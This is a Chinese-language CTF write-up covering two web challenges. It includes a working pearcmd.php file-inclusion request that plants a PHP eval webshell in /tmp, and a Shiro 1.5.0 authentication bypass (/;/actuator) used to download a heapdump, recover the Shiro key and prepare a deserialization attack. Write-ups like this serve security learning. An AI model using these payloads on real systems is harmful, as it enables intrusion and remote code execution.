




# easywill

打开页面发现是个WillPHP，而且应该就是assign的模板渲染了，而且根据这个东西和tp有点关联，联想到tp的那个assign实现的文件包含。去下载源码跟一下，发现是在这里出现了任意文件包含

```php
	public static function renderTo($viewfile, $vars = []) {
		$m = strtolower(__MODULE__);
		$cfile = 'view-'.$m.'_'.basename($viewfile).'.php';
		if (basename($viewfile) == 'jump.html') {
			$cfile = 'view-jump.html.php';
		}
		$cfile = PATH_VIEWC.'/'.$cfile;
		if (APP_DEBUG || !file_exists($cfile) || filemtime($cfile) < filemtime($viewfile)) {
		    echo "123";
			$strs = self::compile(file_get_contents($viewfile), $vars);
			var_dump($cfile);
			file_put_contents($cfile, $strs);
		}
		extract($vars);
		include $cfile;
```



但是找不到flag，发现pearcmd.php包含可以利用，直接打就可以了：

```
GET /?name=cfile&value=/usr/local/lib/php/pearcmd.php&+-c+/tmp/.feng.php+-d+man_dir=<?eval($_POST[0]);?>+-s+ HTTP/1.1
```

就把马写在了`/tmp/.feng.php`，再包含之即可：




# Pentest in Autumn

pom.xml里面有个shiro 1.5.0。

打开网站发现没什么东西，扫了一下（bushi）扫到了`actuator`，但是很明显需要shiro得鉴权绕过：

```
/;/actuator/env
```

找到了这篇文章：https://www.cnblogs.com/icez/p/Actuator_heapdump_exploit.html

利用heapdump找到shiro的key来实现反序列化攻击。通过访问`/;/actuator/heapdump`下载下来，然后找key。

但是文章里的那个工具我本地用不了。。。我用了jdk自带的：

```
D:\environment\jdk8u302-b08\bin>jhat.exe C:\Users\15997\Desktop\heapdump
Reading from C:\Users\15997\Desktop\heapdump...
Dump file created Sun Nov 14 14:39:57 CST 2021
Snapshot read, resolving...
Resolving 286122 objects...
Chasing references, expect 57 dots.........................................................
Eliminating duplicate references.........................................................
Snapshot resolved.
Started HTTP server on port 7000
Server is ready.

```

经过一番寻找找到了key：



转换一下：

```python
import base64
s= "0xa1, 0x58, 0xba, 0xdd, 0xa3, 0x90, 0xf8, 0x09, 0x2b, 0x92, 0x5e, 0xe4, 0x04, 0x8a, 0x42, 0x34"
print(s.replace(", ","").replace("0x",r"\x"))

ss=b'\xa1\x58\xba\xdd\xa3\x90\xf8\x09\x2b\x92\x5e\xe4\x04\x8a\x42\x34'
print(base64.b64encode(ss))
#b'oVi63aOQ+Akrkl7kBIpCNA=='
```


然后工具直接梭：




